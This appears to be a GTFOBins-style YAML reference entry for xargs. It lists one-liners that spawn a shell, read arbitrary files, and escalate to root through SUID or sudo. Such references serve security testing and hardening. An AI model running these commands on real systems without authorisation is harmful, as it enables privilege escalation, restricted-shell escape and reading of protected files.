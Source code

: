```yaml
---
functions:
  execute-interactive:
    - description: GNU version only.
      code: xargs -a /dev/null sh
  file-read:
    - description: This works as long as the file does not contain the NUL character, also a trailing `$'\n'` is added. The actual `/bin/echo` command is executed. GNU version only.
      code: |
        LFILE=file_to_read
        xargs -a "$LFILE" -0
  suid-enabled:
    - description: GNU version only.
      code: ./xargs -a /dev/null sh -p
  sudo-enabled:
    - description: GNU version only.
      code: sudo xargs -a /dev/null sh
---
```


